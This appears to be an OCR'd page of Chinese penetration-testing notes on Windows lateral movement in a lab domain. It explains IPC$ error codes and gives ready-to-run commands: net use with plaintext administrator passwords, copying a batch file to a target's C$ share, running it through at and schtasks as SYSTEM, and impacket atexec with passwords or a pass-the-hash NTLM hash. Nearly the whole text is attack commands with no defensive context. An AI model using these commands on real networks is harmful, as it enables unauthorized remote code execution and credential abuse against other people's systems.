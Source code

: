 （3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题

（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$

（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除

（6）1326：账号密码错误

（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况

（8）2242：用户密码过期，目标有账号策略，强制定期更改密码



 \#建立IPC失败的原因

（1）目标系统不是NT或以上的操作系统

（2）对方没有打开IPC$共享

（3）对方未开启139、445端口，或者被防火墙屏蔽

（4）输出命令、账号密码有错误



[at] & [schtasks]

\#at < Windows2012

net use \\192.168.3.21\ipc$ "Admin12345" /user:god.org\ad

ministrator # 建立ipc连接：

copy add.bat \\192.168.3.21\c$ #拷贝执行文件到目标机器

at \\192.168.3.21 15:47 c:\add.bat  #添加计划任务



\#schtasks >=Windows2012

net use \\192.168.3.32\ipc$ "admin!@#45" /user:god.org\ad

ministrator # 建立ipc连接：

copy add.bat \\192.168.3.32\c$ #复制文件到其C盘

schtasks /create /s 192.168.3.32 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\add.bat /F #创建adduser任务对应执行文件

schtasks /run /s 192.168.3.32 /tn adduser /i #运行adduser任务

schtasks /delete /s 192.168.3.21 /tn adduser /f#删除adduser任务



\#横向渗透明文HASH传递atexec-impacket

atexec.exe ./administrator:Admin12345@192.168.3.21 "whoami"

atexec.exe god/administrator:Admin12345@192.168.3.21 "whoami"

atexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 ./administrator@192.168.3.21 "whoami"



\#横向渗透明文HASH传递批量利用-综合
